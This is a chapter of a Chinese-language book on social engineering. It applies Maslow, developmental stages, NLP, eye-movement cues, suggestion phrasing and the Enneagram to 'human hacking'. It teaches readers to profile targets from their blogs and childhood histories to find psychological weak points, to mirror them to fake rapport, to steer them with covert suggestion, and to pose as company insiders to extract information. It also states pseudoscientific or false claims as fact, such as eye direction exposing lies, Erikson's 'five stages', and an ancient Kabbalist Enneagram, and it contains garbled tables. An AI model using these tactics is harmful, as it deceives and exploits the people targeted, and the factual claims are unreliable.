在心理学中有一条广泛应用于组织的激励理论——需求层次理论，由美国心理学家亚伯拉罕·马斯洛（Abraham Maslow）提出，他将人的需求分成5类，从低到高的排列依次为：生理需求、安全需求、社交需求、尊重需求和自我实现需求，如图1。

为了便于通俗地理解这个“需求金字塔”，你可以参考如图2。

通过由低到高的排列我们很容易理解，只有在低层的需求满足后，高层的需求才会显现，越是低层的需求，对人的影响也就越大。


这能说明什么呢？说明每个人都是“自私”的！人们的需求因变化会不断成长，因需求的不同，而走向不同的方向。更重要的是，清楚对方的需求，是与一个人融洽相处而获取信任的方式。

因所处年龄环境、学习环境、工作环境的不同，人的相应需求也是不同的。比如小孩，在年幼时不会有生存压力，他们需求的是认识，对声音、图片等感兴趣，因而产生出“玩”，并通过模仿来学习肢体动作与语言。

越是得不到的需求，人们越是好奇！由“艳照门”明星图片泄露这一事件来说，给2008年带来轰动性的网络反响，出于生理上以及好奇的需要，多数人都会翻阅泄露的图片，这个事件也让人们转移了对“华南虎”“雪灾”“IPV9”等事件的注意力。

需求是人做某事的动力；也是隐藏的冲突因素。弄明白对方真正想表达的意思，他的需求条件是什么，这也有助于处理交谈中的冲突。

#### 5.2.3 五个阶段，推测你的人生影响

当我们获取到一本日记、个人简历、成长概要，能不能以此知道对方的心理性格？并追溯其个人成长中的痕迹影响？能！当然能！在犯罪心理学中，侦查者会整理出犯罪者的全部经历，包括年幼时家庭关系是否决裂、是否遭受信任的人背叛、是否经历过血腥的灾难等，从而裁定出影响犯罪的原因。

社会学家埃里克·埃里克森（Eric H. Erikson）提出了5个阶段，他指出，一个人从出生到死亡，会经历这些心智成长阶段。如果在某个阶段里因为某些原因而没有充分地成长，这个人在生活中便会出现一些乏力和困扰的现象。其实我们可以这样理解，在人生某个阶段所发生的事会在日后的行为反映出来。

心智成长的5个阶段主要在21岁之前形成，据香港NLP心理学家李中莹老师提供的数据显示，一般的心理障碍都与成长过程中心理需要未能满足有很大的关系。那么这5个阶段是什么呢？

- 第一个阶段：0—1岁——信任与不信任
- 第二个阶段：2—3岁——自主与羞愧
- 第三个阶段：4—5岁——主动性与内疚
- 第四个阶段：6—11岁——勤勉与自卑
- 第五个阶段：12—21岁——身份角色的困惑

每个阶段所产生的心理都与当时所需要的行为是否满足有关，一旦没有满足，便在后来的时间形成了个性。在表1中，列出了各个阶段所需要的行为，以及未被满足后形成的个性。

| 阶段 | 所需要的行为 | 未被满足会产生的个性 |
|---|---|---|
| 第一个阶段：0~1岁 | 肚饿——被喂饱食物；受惊——被拥抱；哭泣——被拥抱 | 表现得异乎寻常地害怕遗弃；拼命寻找一个依赖的对象；需要别人照顾；深信不能信任任何人；经常觉得自卑、无用及不可爱 |
| 第二个阶段：2~3岁 | 开始学习如何控制自己的生理机能；注意到身体的能力与限制 | 不相信自己在世界存在的理由；把自己塑造成必须依靠别人的人；觉得自己的生存权利取决于别人的重要性；经常做出不恰当的道歉 |
| 第三个阶段：4~5岁 | 喜欢幻想、创造及按自己的主意行事；发展出主动性 | 害怕犯错；感到沉重及内疚；只懂得突出别人；回避积极；隐藏错误 |
| 第四个阶段：6~11岁 | 开始与别人竞争及比较 | 极度喜欢与别人竞争；觉得不安全及不如别人；对自己感到欠缺支持 |
| 第五个阶段：12~21岁 | 找出他自己怎样去适应这世界；接受自己身体生理上的变化；界定自己对异性的身份；界定在同性和同辈里的身份；找出人生怎样过 | 不正确地表现出青春期行为；对自己的人生角度感到矛盾；不能建立人生目标；依靠情感关系或事业成就来肯定自己的身份 |

我们如何利用上述表格呢？很简单，询问对方童年所发生的事情，以及对人生有影响的事情，一般也能从对方的博客、日志中找到。然后对比事件发生的时间，看事件是否满足了他的需要，未满足就能知道对方的个性（性格）。

比如，我读小学的时候，父母一直都在城市工作，我由奶奶照顾。在学校上课经常不认真，喜欢看《格林童话》。而在一些学校，老师偏爱学习成绩优秀的学生，对于不是那么优秀的学生，作业错了要罚站、打手并抄10遍……老实说，那时候的教育很糟糕，没按时到校都会被罚。

受那时的影响，逐渐地……我担心犯错，害怕受人欺负，对一些事物漠不关心，这种情形一直延续到初中才结束。因为在那时，我接触过广泛的信息，教育放松了，并尝试改变自己的性格了。

这是受糟糕的教育影响，以及父母常年不在身边所导致的害怕犯错的心理行为。根据我的经历，读者你能猜到发生的时间，是在第三个阶段。现在，请问问你自己，你在年幼时曾经受到过什么影响？对你后来的性格产生了怎样的变化？是否如表1中所述的那样？

牢记了表1，我们就能运用在心理学攻击上，将调查到的影响对方人生的重大事件，与表1中对比，找出对方的心理性格，然后决定你的下一步。


一直以来，我都在寻找一种与人建立友好关系的方法，这使得我可以轻易说服对方，在心理上建立权威的影响力，其中又包含快速建立亲和感、信任。说得更直接一点，我想弄明白人类的行为规律，这让我从心理学边缘找到了一套完整的工具——神经语言程序学（Neuro Linguistic Programming），它能满足任何一位社会工程学师的目的——“人类入侵”。

#### 5.3.1 NLP 起源与简史

令人充满期待的NLP是什么呢？它包含了传统的神经学、生理学、心理学、语言学及人脑控制学，由创始人理查德·班德勒（Richard Bandler）（如图3）和约翰·格林德（John Grinder）于七十年代初期提出，全称为心理学神经语言程序学（Neuro Linguistic Programming），简称为NLP。


Richard Bandler

图3

身兼数学家、心理治疗师和计算机专家的理查德·班德勒与语言学家约翰·格林德因缘巧合而相处，这项NLP心理学成果来自于他们共同研究了三位在二十世纪里最杰出的沟通及治疗大师，其中包括被称为有史以来最伟大的催眠治疗师：米尔顿·艾瑞克森（Dr. Milton H. Erickson）；家族治疗学的权威：维琴尼亚·萨提尔（Virginia Satir）；完形治疗创始人：弗烈兹·伯尔斯（Fritz Perls）。

NLP（Neuro Linguistic Programming）当中，N（Neuro）指的是神经系统，包括大脑和思维过程；L（Linguistic）是指语言，更准确地说，是指从感觉信号的输入到构成意思的过程；P（Programming）是指产生某种后果而要执行的一套具体指令。放在一起，这三个词的意思是指人们为使他们的思维、讲话和活动达到具体的后果所采取的具体行为。

新兴的NLP心理学的建立是为了打破传统上的心理学无效治疗周期，这点可以从大学的教材看出。由大量枯燥乏味与冗长的理论堆砌，NLP比传统心理学所产生的效果更明显，在心理智能的成就可与激励成功学并肩。更广的范围上来说，它对人类的语言、生理、行为进行了深层剖析，NLP国际化的推动发展并衍生出有效的行为智能工具。

毫无疑问，我们被它深深吸引，不仅是因为能使得社会工程学师通过眼球解读线索（Eye accessing cues）占据主导地位，还通过表象系统（Representational system）建立信任，更能通过检定语言模式（Meta Model）分析有效的深层信息。

## 5.3.2 表象系统（Representational system）

人与人的交流基于两种形式的信息传送。第一种是内在的传送，即内心的描绘、细语和感受；第二种是外在的传送，包括言词、语气、表情、举止、行为等来与外界接触。

外在的传送即感官上的信息交流，NLP习惯将其称为表象系统（Representational system），它包括视觉、听觉、触觉、嗅觉和味觉等5个表象系统。

就人类心理行为而言，表象系统的研究使大部分人进行自我认知，或是发现他人的心理行为。它使得你能和任何人谈论愉悦的事，让人们感觉你是可信任的伙伴，这归功于NLP前人整理的一套规律，而我们只需按照这套规律与人建立信任关系。

##### 5.3.2.1 你的表象系统是什么？

NLP指出，在人类的成长过程中，会在三种感官中倾向一种作为主要的感官，即从听觉、视觉、触觉这三者中选择某种作为主要的与外界进行信息传送的感官。请读者们回忆重要的考试与面试的经历，你能记得你当时如何解题的情形吗？是否在脑海中看到笔记本记录，是否听到老师的说话来刺激起你的脑干记忆？显然，你在用某个感官获取经验，同时，这也是你惯用的接收信息的感官。

你很疑惑，为什么要找出他人的主要表象系统呢？好处是，NLP为不同的表象系统的人划出明显的心理行为。聪明的社会工程学师写下目标的主要表象系统时，会利用感官心理上的弱点。同样，你和目标交谈将十分顺捷，同时也增进了你的社交能力。

表象系统具体是如何界定的呢？先来说说感官。人类有五种感官：听觉、视觉、触觉、嗅觉和味觉，但只有听觉、视觉、触觉是常用的与外界进行信息传送的感官。

在人类的成长中，人对某种感官的界定是特别的倾向或受到影响。例如，盲人的听力比普通人都要敏感，这便是倾向的形成。那么，三种感官的人对什么在意呢？

- 听觉型：声音（语调）
- 视觉型：图像（意象）
- 触觉型：触摸（感觉）

三种感官的人在思考方式、行为、谈话上都是不一样的，仔细观察就不难发现。例如，读者可以从本书找出大量视觉化的用词，说明我是视觉型，习惯用视觉学习获得经验。还有一点需要注意，NLP没有刻意对某个人划分感官，因为有的人感官会转换，不是一成不变的，有的三种感官都特别好，也特别易于与人打交道。

### 那我们如何区分出一个人的主要表象系统呢？

很容易，你们的父母比你更加清楚。例如，我的母亲看到弟弟哭脸时，便跟他说：“哥哥带你去玩游戏！”很明显，她知道弟弟属于感觉型的，但很多人的潜意识没有这样去区分培养。再来说说听觉型：母亲对声音很敏感，哪怕是细微的响动都使她生疑，她习惯大声说话，语速很快地指责某件事。当然，我也很聪明地大声应对，语速很快地与她交流……很奇怪，她被我打败了。

表象系统另一个重要点是——内感官，它是最终评定心理行为的标准。内感官是什么呢？即大脑中的内感觉！前面提到的内视觉、内听觉、内感觉等，在下一节我们将通过眼球解读线索找出他人的内感官，浅析不同内感官的特征与配合。

##### 5.3.2.2 《犯罪现场鉴证》关键点

别惊讶，我提起的正是美国哥伦比亚广播公司的王牌节目，获得殊荣无数的美剧收视冠军《犯罪现场鉴证》。这部以高智能破案的美剧在第二季的21集里就出现了NLP的技法——眼球线索解读（Eye accessing cues）。

> 鉴证科凯瑟琳在经过几次的错误判断后仍没确定真正的凶手，她在水帘洞做完实验后与莎拉有一段有趣的对话：  
>   
> “她的眼睛转的方向不对。”  
>   
> “对不起，你刚才说什么？”  
>   
> “卡拉·丹可尼跟我讲这事故的时候……她的眼睛是转右的。一个人在尝试记忆的时候，他的眼睛往左边望；如果他们在编故事，望的就是右边……”  
>   
> “你说她编故事，这么说她就是在捏造事实。”  
>   
> “神经语言程序学。”  
>   
> “人类行为学。”

最后，结果不言自明，杀害女孩的就是母亲卡拉·丹丁尼，证据是当日的湿手表与没有渗水的鞋子。

假设你不知道对方的内感官，可以通过眼球线索解读观察眼睛的转向来进行分析。这一依据的理论是与表象系统存在关联性的。图4中，列出了眼球不同的转向所表示的含义。


图4

1. **内视觉的眼球转动模式在上面（往上望）**。
- 望向左上（以你自己的角度，以下同）是回忆过去的景像经验，称为“视回（Vr）”。
- 望向右上，则是创作新的景像经验，称为“视创（Vc）”。
- 双眼平视地向前望，是凝视，即属内视觉。

2. **内听觉占有三个位置：左中、右中和左下**。
- 左中是回忆过去的声音和说话，例如回想昨天听到的歌，称为“听回（Ar）”。
- 右中是创作新的声音，例如想象用你母亲的声音读出来这句话，称为“听创（Ac）”。
- 左下是自言自语，很多人在独立思考时都会用这个内感官，尤其是心中烦闷的时候，称为“听自（Ad）”。重复别人说话时都会用这个内感官。

3. **内感觉是右下**，每当搜查心里的味、嗅、触觉经验和情绪感觉时都会激活这个内感官，称为“感（K）”。

NLP在国际上为什么特别受欢迎呢？很简单，它只注重效果！读者朋友们，现在找到自己的主要表象系统了吗？没关系，你可以回答这个问题：你记忆中特别快乐的事是什么？是欢愉的笑声，特别的感觉与美好的情景吗？我建议你最好找伙伴来测试，或观察眼球转向，再与表2对比，看看是不是很相似呢。

表2：视觉型（含“特征 / 配合”两栏；行项含“行为、个性、说话、其它”）

听觉型（含“特征 / 配合”两栏；行项含“行为、个性、说话、其它”）

感觉型（含“特征 / 配合”两栏；行项含“行为、个性、说话、其它”）

## 第五章 窥探你心中的秘密

现在的你已经对表象系统作了大致的了解，包括不同的表象系统的特征。令人感兴趣的是，我们如何进一步通过表象系统建立信任呢？很简单——模仿！我们将在下一节中介绍，继续往后吧！

##### 5.3.2.3 模仿中的信任

全美畅销书《一分钟经理》就简化人际关系列举了美国最杰出的经理人模仿范例，在成功培训与专业学习上的前辈强调学生最好模仿杰出的榜样。同样地，我们从出生后的咿呀学语到蹒跚行走，或学习社会经验都是模仿出来的。但是现在我要告诉你，你模仿一个人，对方会喜欢你，并信任你。模仿也是有趣的心理行为。

你能回忆曾经有过与别人看法一致的时刻吗？是什么原因使得你乐于与他共事，无话不谈？很可能你会发现是因某一本书、一部电影或一件事，在彼此心里产生相同的想法和一致的感受，甚至举止、说话、背景、追求的信念都很接近，只是你并没有留意而已。这使得你们很容易契合，契合就是使你进入别人的心灵世界，让他觉得你了解他，你与他休戚与共。很间接地说，这达成了双方的信任关系。

彼此的相似性越多，便越容易交谈，模仿的目的就是建立相似性、共通性。当你模仿并学会目标的习惯后，最后的一个环节是协调他们。协调也是配合，但不能表现得过于明显，部分协调，看上去自然就可以了，请参看表3。

| 类型 | 方式 |
|---|---|
| 身体语言 | 身体外形姿态、姿势、手势；例如：交叉膝、翘臂腿、身体往后靠或前倾；面部表情：微笑、皱眉、眨眼等微妙的表情；身体运动：走来走去、交叉或不交叉双手、坐下、拍手等。 |
| 声音与言语 | 音调、音色、语速。例如：突然高叫，说话语速时快时慢。 |
| 特殊群体语言 | 某个年龄层与相关专业上的语言。例如，黑客界的“跳板”“肉鸡”等专业术语。 |
| 其它协调 | 共同兴趣和经历、共同目标、共同价值、共同背景、共同处境和形势等。 |

上述协调提到的专业术语与我们典型的信息收集攻击很相似，比如冒称企业内部员工混淆目标的判断，使其可信。实际上，从心理角度的普通攻击流程是这样形成的，如图5所示。


协调总结出的一句话是，与对方的姿势、动作保持一致，说话的频率保持一致，谈话中的语言关键词保持一致。切记，协调是社交中重要的法则，如果你不想在一个爱好脚本攻击的QQ群被人踢出，你最好与他们谈论最近渗透大站的攻陷经历；很快，你会特别受人吸引。

#### 5.3.3 语言模式

人类除了以表象系统获取经验外，彼此间最常用的信息交流方式就是语言。如果没有“语言”，人们必定重回远古时代，无法享受高层生物所需要的自我实现的精神文明。语言模式也是NLP研究人类行为所发展出来的心理研究项目。

在外人看来，语言只是交流工具罢了，但这可不是全部，一套有效的语言模式能让你弄明白对方的深层看法，你还能控制引导对方到设下的陷阱中。夸张一点，你还能使他们被催眠，从而进入沉睡状态。

##### 5.3.3.1 检定语言模式

社交工程另一个法则是：不要与他们产生冲突，而是建立和谐。与目标关系搞坏了，无论从心理和利益的角度来看都对自己没有好处，再给大家一个附加的忠告：控制你的情绪，尤其是在攻击信息拥有者的过程中。

检定语言模式（The Meta Model of Language）正是为了构建谈话双方和谐状态产生的。老实说，这让外人看上去认为“你是一个很会说话的朋友”，人际关系左右逢源。检定语言模式提供了一个庞大的论述库，我打算挑选几个简明的进行说明，更为详细的请参考光盘附带的NLP相关资料。

“上堆下切”是个不错的构建和谐谈话的方法，你可以就某个人的提问，采用三种语言模式来进行运用：上堆（Chunk-up）、下切（Chunk-down）和平衡（Parallel），具体解释如下。

- **下切**：弄清对方说话所真正想表达的意思，或把内容里的焦点调细，部分放大，像用小镊子把内容的一些资料“检”出来。
- **上堆**：是为了与对方建立一致的气氛，用包含广阔的字去暗示意义上的共通，因而建立接受对方和容许对方引导的感觉。
- **平衡**：探索对方说话的意义，因此引导对方注意到有同样意义的不同可能，找出在同一层次的其它选择。

例如，对方说：“我很喜欢计算机安全”，这是一个粗泛的话题，运用上堆下切就方便了。则上堆建立和谐，下切调细对方是喜欢哪方面安全，并举例其它安全平衡，如图6所示。


前面“上堆下切”是语言模式的一部分，检定语言模式更多是改变他人的心态及思想深层，以达成行为及结果的改变。人们说话时所表达的意思，是不能完全显示说话者内心对所说事物的全部观念和意义的，这时检定语言模式就派上用场了，它是一种极为有效的发问技巧，使得我们能重组对方内心世界，它最明显的特点就是“检”。

所有的话，都由我们内心深层意念（深层结构）构成，再经过扭曲（Distortion）、归纳（Generalization）和删减（Deletion）这三个步骤而形成语言。因为语言始于深层，一个人的说话总是在显示他的身份、信念、价值观和规条。

### 一、扭曲

我们需要把储存在深层结构的资料简化才能有效表达，而在简化的过程中，很多资料都被扭曲了。换一句话说，我们在对一件事情的认知过程中，必有扭曲的情况出现，例如一个人看到树影中的绳子而喊“有蛇！”。

这份扭曲的能力使我们能够享受音乐、美术、文艺等，也能让我们看着一块天上的云朵而幻想出其它东西。其实，每当我们用某种动物或植物去形容一个人的时候，这便是在做“扭曲”的工作。

### 二、归纳

当新的知识进入我们的大脑时，大脑会把它与我们本有的类似资料作出比较和归类，这个程序是我们能够学得如此多和快的原因。把人、事、物归类能使我们定位出它们在我们人生里的意义与地位，并让我们能够有效地运用它们。比如每当说“总而言之”之类的话语时，这便是在运用“归纳”的技巧。

### 三、删减

我们必须把深层结构中的大部分内容删减。每秒钟我们的大脑接收到大约两百万项资料，它必须把绝大部分的资料删减。同样地，一件事情储存在大脑里有极多的细节，我们在说话时，只能提及它极少部分的资料。比如我们总想用最简单的语句去述说内心的意思，所以“删减”存在于每一句话语中。

上述三个语言模式还可细分为更加详细的句式，请参考表4。

| 扭曲 | 归纳 | 删减 |
|---|---|---|
| 二、猜臆式 | 五、以偏概全式 | 七、句子成分不明确 |
| 三、因果式 | 六、能力限制式 | 八、虚泛词式 |
| 三、相等式 |  | 九、单项删减式 |
| 四、假设式 |  | 十、比较删减式 |

无论与任何人的交谈，语言经过扭曲、归类、删减后表达的意义使得我们并不是很能理解对方真正的主观看法，因而我们才需要对他们所说的话语进行“检”定，还原他们的内心看法。

### 例如：

- 猜臆式：“她不喜欢你。”这是人们主观上的猜臆，我们检定的手法是“你是怎么知道的？”语言模式的不同，我们检定的方法也不同，但有点很明确，将对方的主要关键词再次询问检定。
- 因果式：“这种天气使我无心工作。”化解：“两件事怎么会有关系呢？”
- 假设式：“为什么你不好好照顾我？”化解：“什么使你认为我不是在好好照顾你？”

不要小觑这种语言模式的作用，因为我们每天所谈论的语言都经过了扭曲、归纳、删减，社交工程需要深入了解对方的内心看法，为此都用检定语言模式。但是，检定语言是有技巧的，不要因为一个人的一句话，而不断地“检”烦了他们。你最好弄明白他们语言背后的看法。并且，你不能让他们感觉到被检定，要使用温和的语气发问，例如前面猜臆式的“她不喜欢你”，你应该这样反问：“哦，真的吗？你是怎么知道的呢？”

社交工程检定的目的通常是为了达成某些目标，发现对方内心深层善意的需求。本节没有对语言模式作详细的介绍，你可以查看以下专业资料。

- 专业书籍：《重塑心灵》
- 在线教程：http://www.nlpu.com.cn/action/newsdetail/id/5478.html

##### 5.3.3.2 催眠性暗示语言模式

暗示语言模式是催眠治疗师米尔顿·艾瑞克森所创，这是他语言能力中很特别的一面，因为他善于将谈话内容经分析和提炼成暗示性语言模式。其实语言并不能起大部分的效果，而当加上适当的声调、说话速度、手势、身体语言和动作去配合，就能与对方的潜意识沟通并引导对方。

不要误会，我们所注意的暗示语言模式与催眠无关。如果说前面的检定语言模式是为了接触对方深层的内心看法，而暗示性语言模式则是设法触动对方内心的潜意识。暗示性语言模式没有理性明确的观点，而是你讲的话引起对方内心的共鸣感觉，是一种无意识的行为。

### 一、声调的运用：文字无需改变，只需改变声调即可。即慢的速度、低沉的音调。

- 在指令之前稍微停顿一下。例如：希望你今天晚上有个（停顿）……好梦。
- 说指令前可以增加音量。例如：（增加音量）希望你今天晚上有个好梦。
- 说指令前改变声调，较高或较低。例如：希望你今天晚上有个（高音）……好梦（低音）。
- 说指令时把文字拉长一些。例如：希望你今天晚上有个好梦……（拉长音）。
- 可考虑加上手势，每当说该词时都用同一个手势。

你可以找你的好朋友拨打电话以谈论心事作为实验，尽量表现得自然一点，而当你说完后，注意他们心情是否有变化，是否很紧张地追问你发生了什么事。

### 二、引导式用词：一些文字的选择，会使对方潜意识接收不同暗示和推动效果。

- “但是”与“同时”：“但是”否定了句子前面的意思；“同时”则肯定了句子的前面意思。例如：在人生的路程上，经常有困难，同时也有快乐与满足。
- “如果”与“当”：“如果”提供了可有可无的选择，而“当”则已经假设了某些条件一定会实现。例如：当你生意成功了，你会买到名贵的跑车。
- “不能”与“不会”：“不能”是没有选择，而“不会”暗示已掌握能力，因为同时有“会”与“不会”两个选择，有选择便是有能力。

### 三、时间式的用词：用文字把事情的时间性改变，因为时间性改变了，事情的意义便会有所不同。

例如，原话为“不知怎么做”，可以改为“到现在还没有找到办法？”

### 四、隐藏指令式的用词：语言的模式并不是一个直接的指令，但是对方会跟随其而行事。

- 建议  
“很多人发觉在回忆一件事时，他们眼睛都转向右边。”  
“我在想如果你……会有怎样更舒服的感觉？”
- 反面的提议  
“只有你感到足够舒服，才需要张开眼睛。”  
“除非你已经很想找回那勇气，不要马上去回忆那次……”
- 隐藏指令  
“你一面听着这柔和的音乐，一面感觉自己的身体更放松。”  
“我昨天见到一个朋友，他已经踏入2002年，他有很多计划，他会马上去做。”

### 五、双刃式的用词：话中提供两个选择，而两个选择都是达到同一个目的。

“你想现在开始，还是喝完这杯水才开始？”  
“你想现在给他打电话，或者回到公司后才找他谈？”

最后，不要对催眠性的暗示语言模式抱有期望，因为有的时候，它们根本派不上用场，而当你的经验积累到一定的程度，你会依情况而改变你的语言模式，包括暗示性语言模式。

### 5.4 九型人格的性格密室

为什么缜密思考的经理看不惯冲动的员工？为什么高效率的你受不了行动缓慢的伙伴？是什么决定了人与人之间的冲突？又是什么让人与人之间如此不同？只有当揭开表面行为、深入观察，才发现每个人的思维模式的不同影响着决策力、价值取向以及情绪反应。九型人格提供这样的一套人际关系处理工具，你将很轻松找出对方属于哪一型人格，并且，你知道如何与不同类型人格的人沟通。同样地，这一有效的心理学工具方便了社会工程学师的入侵。

#### 5.4.1 什么是九型人格？

九型人格是一个有2000多年历史的古老学问，卡巴拉哲学宗派的师父们用它来帮助弟子们了解、转化自己与他人沟通；九型人格是一门讲求实践效益的应用心理学，它按照人们惯性的思维模式、情绪反应和行为习惯等性格特质，将人分为九种，如图7所示。

- 1. 我有我的标准——完美型
- 2. 我要帮助所有的人——助人型
- 3. 我要出人头地——成就型
- 4. 我是独一无二的——自我型
- 5. 我要了解世界——理智型
- 6. 我很小心谨慎——疑惑型
- 7. 我是充满欢乐的——活跃型
- 8. 让我来支配——领袖型
- 9. 我宁愿息事宁人——和平型


在图7中，指出了不同人格间的联系。同时，九种性格的人，全部都各属于三大中心的其中一个，每一中心都各有三个性格。这三个中心分别是情感中心、思想中心和行动中心。如表5（113页）所示，列出了不同性格间的特点。

#### 5.4.2 与不同人格的人交谈

九型人格不是单纯指出某个人一定属于其中一个性格，可以有多个，但其中一个会较为突出。那么情感、思想、行动这三个中心的人遇到事情分别会作出什么反应呢？情感中心的人遇事时的直接反应是源于情绪、感觉和感情。形象化一点说：无论是乐事还是苦事，他们首要的真切反应，都是“打从心底里来”的；悲哀时感到心都痛得像要掉下来了；快乐时又会特别容易触摸到自己喜悦的心跳。他们是感情十分细腻又浓烈的人，经常渴望了解别人，又渴望被别人了解；他们最关心的是人和人之间心灵上的紧密关系，因而变得十分在乎别人对自己的评价。对于爱，他们永不嫌多，在三大中心里，他们是对“情”最感兴趣的一群。

| 中心分类 | 九型人格 | 自我认同 | 性格特点 |
|---|---|---|---|
| 情感中心 | 第二型：爱给予 | “我必须感觉别人爱我，于是爱自己，那么别人就会爱我了。” | 坚信“施比受更为幸福”的道理，乐于付出，富有同情心，会无条件支持和爱他人。 |
| 情感中心 | 第三型：爱成功 | “我要一站出来，人人都无法不爱我。” | 渴望被肯定，重视成就与形象，常努力经营优秀的一面。 |
| 情感中心 | 第四型：爱独特 | “我必须特殊且独特，才能吸引到让人心爱；也让我害怕被知道我不配拥有完美，为此我常恐惧和愤怒。” | 重视独特性与内在感受，自我意识强烈，敏感而自我中心。 |
| 思想中心 | 第五型：爱知识 | “无知是可耻的，我越懂得多，别人就会越爱我。” | 观察型，热衷知识与理论，倾向抽离，可能理智疏离。 |
| 思想中心 | 第六型：爱权威 | “爱孕育于忠诚的关系中。” | 重视安全与忠诚，警觉谨慎，易焦虑与怀疑。 |
| 思想中心 | 第七型：爱快乐 | “我不明白为什么有些人总是选择痛苦。难道他们不知道，唯有快乐才会带来爱吗？” | 追求愉快体验，回避痛苦，乐观活跃但可能分心与逃避。 |
| 行动中心 | 第八型：爱权力 | “你爱我，因为我有一股不可抗拒的威力。所以你怕我，也不得不尊敬、佩服我。” | 气场强、主导性高，重视掌控与保护，直率强硬。 |
| 行动中心 | 第九型：爱和平 | “我最大的本事就是忘记自己，包括我内心的要求。因为否定别人将会被拒绝。” | 追求和谐、避免冲突，温和包容，但可能压抑自我需求。 |
| 行动中心 | 第一型：爱秩序 | “达到完美是我终止别人无休止的批评和获得爱的唯一方式。” | 自律、讲原则与秩序，重视正确与改进，易批判。 |

情感中心的人凭感觉过日子，思想中心的人则永远依赖思想来回应事件。在遇事情时，他们会习惯地用脑筋去分析、了解、归纳，显得较为理性和深思熟虑；他们拥有高超的想象力、联想力与分析力；是在三大中心里，对“理”最感兴趣的一群，然而行动力则相对较弱。

与情感和思想中心的人不同，行动中心的人是最不会空想、最脚踏实地、最在乎生存问题的人。他们最关切那些实实在在摸得到、吃得到、捉得着的东西；他们的智慧却也因其实效性而让人折服。属于这一中心的人不需要反复思量、向内感受，便能够直接催生明快的行动，是天生的问题解决专家。所以在三大中心里，他们可以说对于“事”是最感兴趣，也是最有办法的。

九型人格的人其潜在的动机是什么呢？容易掉入的陷阱又是什么？大家可以参考表6。仔细看完九型人格后，你能感觉到潜在的动机主要都是受青年时期的事件影响所形成的，与前面所提到的“五个阶段”有异曲同工之妙——小时候受到什么事件影响，长大后就会形成怎样的性格与心理缺陷。相较“五个阶段”而言，九型人格将人类行为所产生的性格进行了细分，它揭示了人们内心最深层的价值观和注意力焦点，它不受表面行为的变化所影响。

| 类型 | 潜在动机 | 容易掉入陷阱 |
|---|---|---|
| 第二型：爱给予 | 渴望被爱，会先无私地给予爱，以换取别人的注目和感激；有时又渴望在别人“爱”的掌控下让对方依赖自己。爱心的掩饰影响，会让人喜欢干涉并偏爱与关注；他们会使自己变得乖巧、处处讨人欢心，形成日后惯于操控别人的个性。 | 缺乏理性，感情用事；好管闲事，占有欲强；漠视自我发展；懒于奉献和谄媚。 |
| 第三型：爱成功 | 渴望被肯定，追求与众不同，接受众人的注意，被人赞赏，力求在别人心目中留下深刻印象。 | 由预见自恋到一味不择手段倾向；迷失自我；功利主义，过分投机。 |
| 第四型：爱独特 | 年幼时可能遭到遗弃，又或太强调被遗弃的影响，所以整天活在别人会抛弃他的惶恐中。为了在自我中支撑下去，自觉地追求一种独特性以吸引人注意来获得自足；若无法期望到别人的关爱，便在自己营造的幻想与现实中矛盾。 | 自我封闭，性情孤僻；嫉妒与斗较；自怜与自卑；自我挫败。 |
| 第五型：爱知识 | 他们感觉世界是充满变数，处处存在威胁，害怕淹没其中；便躲在自我中，以积累的知识与经验来面对外界，把发生在身上的每一件事情都当作面对环境和威胁时自我防卫的武器。 | 脱离现实，闭关自守；贫乏和吝啬。 |
| 第六型：爱权威 | 在早年认定世界充满了威胁和破坏性，所以不断地质疑、试探、想象，去求得安全的保护罩。为了生存，他们认同一个团体，希望在这里获得接纳、安定。他们需要有权威来指引方向，这样便会安心交托自己于群体中，回应依赖权威、忠心和行动。 | 不断猜忌导致疏离；过分急躁，逃避面对灾害，自甘崩溃灰败；自我怀疑。 |
| 第七型：爱快乐 | 想享受更多快乐；自娱娱人，重视生命中美好的一面，并借此逃避不愉快的阴霾，成了他们生存的动力。 | 逃避义务，放纵任性；朝三暮四，不重承诺；肤浅幼稚；缺乏忍耐力。 |
| 第八型：爱权力 | 他们很早已发现，要在这个充满竞争、威胁的世界生存，就需要有钢铁一般的超人能力和意志；强者才是最后的赢家，所以他们不期望别人喜爱，只求获得别人的尊重。成年后，他们锻炼出一种坚定不移的自信；相信自己卓越的能力才够权威和说服力；野蛮霸气，因为他们坚信每人都要为自己的际遇负上最后的责任。 | 纵欲；野心重；专横跋扈。 |
| 第九型：爱和平 | 不容易愤怒；当怒气出现时，会本能地压止，以保持内心的安静。他们在童年时有被忽略、忽视的经历，学会忘记自己，尽力迎合他人；借此博取别人的喜爱，维系人际之间的和谐。 | 自贬、懒散怠惰；麻木不仁；惰性强，逃避问题。 |

对我们而言，第一步是给对方“贴”上他是九型人格中的几号，依据潜在动机改变策略与他们接触、交谈。我们很容易从一个人的做事方式、衣着打扮与说话方式推测出他属于哪一个中心，然后细分为哪一性格。例如，我们生活中熟悉的雷锋便属于情感中心，尽管没有接触，但从他日记中的所写和平常生活中的所做说明他是属于第四型，日记中的雷锋可是特别注重个人形象的哦。

人们通常都有明确的心理漏洞，因为人格是受事件的影响形成。这样的心理漏洞便成为我们接近一个人的方式。这很像黑客们从安全公告听说Windows出了新漏洞，第一步就是将存在漏洞的文件丢进OD分析起因，编写针对的exploits进行攻击。

- 九型人格网：http://www.jiuxingrenge.com
- 在线教程：http://u.youku.com/user_video/id_5940617.html

## 5.5 你也是人际高值感沟通者

吃透本章的心理学知识了吗？怎么，还没有理解？不要紧，下面的心理学小技巧将助你一臂之力。从塑造可信的第一印象到获取信息拥有者的“帮助”，你会发现，心理学的应用是很有趣的。

#### 5.5.1 塑造友善的第一印象

第一印象是对方在初次见你时所感觉到的形象，这很重要；他对你所做的看法与决定，都参考第一印象作为评判标准。在我们小的时候，父母就经常告诉我们，有客人来访的时候，一定要热情地端茶递烟，叫叔叔阿姨等等，为的是在客人面前有个好的印象，表现出知书达礼般的教养。确实，第一印象很重要，我们如何做呢？

- 1. **微笑**

“微笑”可以说是头号策略，也最方便做。“微笑”成功地传达了四种强有力的信息：信心、快乐、热忱，以及最重要的——喜爱与赞同。人们认为微笑的人有信心，因为当对自己或周围的环境、事物感到紧张不安、没什么把握时，往往不会有什么笑容。当然，微笑传达了快乐。你的微笑表明：你很高兴来到此地，很高兴见到对方；反过来，对方也会更有兴趣认识你。

- 2. **相似才相吸**

“异性相吸”的说法是不确切的，因为实际上人们更喜欢那些与自己爱好相似、和自己兴趣相投的人。是的，人们或许会因为一个人与自己不一样而对他发生兴趣，但让彼此喜欢的却是我们之间的相似点、共同点！相似才相吸，所以和对方谈话时，更多的是聊聊你们共同感兴趣的话题。

